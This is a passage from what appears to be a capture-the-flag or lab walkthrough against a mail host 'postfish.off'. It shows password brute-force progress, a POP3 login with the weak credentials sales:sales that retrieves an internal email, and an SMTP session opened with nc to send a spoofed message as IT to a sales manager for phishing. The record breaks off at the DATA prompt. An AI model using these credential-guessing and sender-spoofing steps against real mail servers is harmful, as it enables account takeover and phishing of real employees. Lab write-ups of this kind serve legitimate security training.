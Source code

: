 ```
[STATUS] 51.41 tries/min, 1634 tries in 00:31h, 931 to do in 00:19h, 16 active
[STATUS] 52.22 tries/min, 1921 tries in 00:36h, 644 to do in 00:13h, 16 active
[STATUS] 50.21 tries/min, 2098 tries in 00:41h, 467 to do in 00:10h, 16 active
```
I found that I need to remove common found users in smtp or else you get false positives.
filter, man, root, etc..

Found that we have sales:sales for email.

Logged in on pop3.

```
telnet 192.168.55.137 110
Trying 192.168.55.137...
Connected to 192.168.55.137.
Escape character is '^]'.
+OK Dovecot (Ubuntu) ready.
USER sales
+OK
PASS sales
+OK Logged in.
list
+OK 1 messages:
1 683
.
retr 1 
+OK 683 octets
Return-Path: <it@postfish.off>
X-Original-To: sales@postfish.off
Delivered-To: sales@postfish.off
Received: by postfish.off (Postfix, from userid 997)
        id B277B45445; Wed, 31 Mar 2021 13:14:34 +0000 (UTC)
Received: from x (localhost [127.0.0.1])
        by postfish.off (Postfix) with SMTP id 7712145434
        for <sales@postfish.off>; Wed, 31 Mar 2021 13:11:23 +0000 (UTC)
Subject: ERP Registration Reminder
Message-Id: <20210331131139.7712145434@postfish.off>
Date: Wed, 31 Mar 2021 13:11:23 +0000 (UTC)
From: it@postfish.off

Hi Sales team,

We will be sending out password reset links in the upcoming week so that we can get you registered on the ERP system.

Regards,
IT
.
```

Pasword reset links? No other emails present lets me know we might be able to get them click a reset link.
Picked Brian Moore to start as he is the Sales Manager. I added others but did not get a response.
```
 nc -v postfish.off 25   
postfish.off [192.168.55.137] 25 (smtp) open
220 postfish.off ESMTP Postfix (Ubuntu)
helo teset
250 postfish.off
MAIL FROM: it@postfish.off
250 2.1.0 Ok
RCPT TO: brian.moore@postfish.off
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
```